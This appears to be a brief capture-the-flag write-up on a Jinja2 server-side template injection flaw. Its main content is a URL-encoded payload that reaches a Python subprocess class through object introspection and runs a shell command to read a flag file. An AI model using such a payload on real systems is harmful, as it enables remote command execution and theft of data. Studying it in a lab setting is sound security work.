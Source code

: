 ```
http://157.245.43.189:31832/%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414](%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D
```

this is using a Templated engine for Python Called Jinja2

### Vulnerability : server-side template injection (SSTI)

